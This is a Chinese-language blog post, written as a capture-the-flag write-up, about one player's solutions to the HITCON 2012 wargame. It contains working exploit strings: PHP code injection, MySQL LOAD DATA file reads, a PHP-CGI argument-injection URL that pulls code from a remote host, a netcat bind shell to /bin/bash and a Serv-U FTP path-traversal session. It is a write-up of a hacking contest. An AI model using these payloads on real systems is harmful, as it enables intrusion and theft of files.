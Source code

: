 ```yaml
---
layout: post
title: "HITCON 2012 Wargame Notes"
date: 2012-07-22 11:27
comments: true
categories:
- hit
- hitcon
- note
- hack
- web
- wargame
---
```


今年是第二年來 HITCON ，去年感謝 atdog 大大帶我一起報名 HITCON 玩 wargame ，
本來想說和去年一樣解解 QR code 我就很開心了，沒想到今年運氣不錯 XD

感謝同隊 crax 的組員： atdog, xman, jeffxx, lence, 還有不知道名字的兩個學弟學妹！

Wargame 題目有大大幫忙備分了：[HITCON 2012 Wargame](http://rsghost.org/backup/wargame.hitcon.org/)

## Wargame 心得

這次因為運氣好，所以有幾題 web 都用爛招解掉了 XD
用和 hint 沒關係的解法繞掉其實解的有點心虛，下面是今年我有幫到一些忙的題目：

### Web 1

主要就是利用 `{${fucntion()}}` 來直接執行 php function ，本來想用 `file_get_contents()` 來讀 `key.php` 發現被擋掉了，
所以就試著用 `include()` 再用 `get_defined_vars()` 和 `var_dump()` 看有沒有設什麼變數，還好 `key.php` 是把 key 放在變數裡，
不然的話就要用其他方法去看 source 了。

    http://wg.hack.idv.tw/~ow100/orange.php?name=dm4&data={${include($_GET[key])}}{${var_dump(get_defined_vars())}}
    http://wg.hack.idv.tw/~ow100/yourfiles/dm4.config.php?key=../key.php

### Web 2

利用 Web 3 給的 `sqln00b/sqln00b` 可以登入 phpMyAdmin ，接著把 `key.php` LOAD 到任何一個 table 就可以了：

    CREATE TABLE web2 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/ow200/public_html/key.php' INTO TABLE web2;

### Web 4

從 `info.php` 發現 `Server API: CGI` 想到應該是在說今年的 [PHP CGI vulnerability](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)
，這東西今年出來的時候有看一下，不過其實還是在解題的時候才真的看懂 XD

在 `htaccess.txt` 裡可以看到

    RewriteCond %{QUERY_STRING} \-|\-d[a-z_]+%3d|%2d[a-z_]+%3d [NC]

發現 `%2d` 擋的比較鬆，所以研究了一下可以用

    http://wg.hack.idv.tw/~w100/info.php?%2dd+allow_url_include%3dOn+%2dd+auto_prepend_file%3dhttp://myhost/a.txt

來做 remote code execution ，試了一下就可以發現要找的東西在 `../key.txt` ，所以在 `a.txt` 這樣寫就可以讓它噴 key 了：

    <?php
        system('cat ../key.txt');
        exit();
    ?>

本來以為這題這樣就結束了，不過我們想到既然可以用 `cat` ，搞不好這題可以......

    <?php
        system('nc -l -p 5566 -e /bin/bash');
        exit();
    ?>

然後......

    [~] $ nc wg.hack.idv.tw 5566
    id
    uid=1002(w100) gid=33(www-data) groups=1002(w100),33(www-data)

### Web 3

這題看 hint 應該是要用 mysql client 的 `system` 來解，不過我們利用 Web 4 拿到的 back connect shell
可以發現要找的東西是 `/home/my100/key.txt` ，所以一樣用：

    CREATE TABLE web3 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/my100/key.txt' INTO TABLE web3;

就可以在 Web 2 的 phpMyAdmin 看到 key 囉~

### Web 6

也是用爛招...... 用 Web 4 拿到的 shell 去看 Web 6 的 source ，在 `/home/a200/public_html/index.php`
裡面會判斷如果用 `admin` 登入的話，會噴 base64 encode 之後的 key

### Potent Pwnables 2

nmap 完之後發現有開 ftp ，查了一下發現有 [Serv-U FTP Jail Break](http://www.exploit-db.com/exploits/18182/)
和 hint 一模一樣應該就是它了吧 XD 不過那時候肚子太餓又找不到怎麼登入 ftp ，把連結跟 atdog 說了之後我就出去吃點心，
回來之後就被解掉了，id/pw 好像就是 `hitcon2012/hitcon2012` ，隊友好強啊！

關鍵是 `Plz Input "Your" Real ID:` 要用 `wargame.hitcon.org` 的帳號去 generate key.txt 接下來就：

    [~] ➟  ftp jumpochisun.blogsyte.com
    Connected to jumpochisun.blogsyte.com.
    220 Serv-U FTP Server v6.4 for WinSock ready...
    Name (jumpochisun.blogsyte.com:dm4): hitcon2012
    331 User name okay, need password.
    Password: 
    230 User logged in, proceed.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> get ..:/..:/..:/..:/key/dm4key.txt key.txt
    local: key.txt remote: ..:/..:/..:/..:/key/dm4key.txt
    227 Entering Passive Mode (114,36,241,246,15,231)
    150 Opening BINARY mode data connection for dm4key.txt (28 Bytes).
    100% |**************************************************|    28      179.89 KiB/s    00:00 ETA
    226 Transfer complete.
    28 bytes received in 00:00 (0.80 KiB/s)



剩下的時間都在試著解 Web 5 ，以及一直看 [駭客觀察日記](http://www.youtube.com/watch?v=l2dvg3KJoPo)
不過看到結束還是沒找到應該怎麼解......

再次感謝辛苦的主辦單位和工作人員！還有又強又好心收留我帶我一起玩的 crax 隊友！

爽啊！

<a href="http://www.flickr.com/photos/51077287@N06/7635469218/" title="Flickr 上 sunrisedm4 的 hitcon-2012-wargame-socre"><img src="http://farm9.staticflickr.com/8426/7635469218_ee0dbce135.jpg" width="500" height="225" alt="hitcon-2012-wargame-socre"></a>
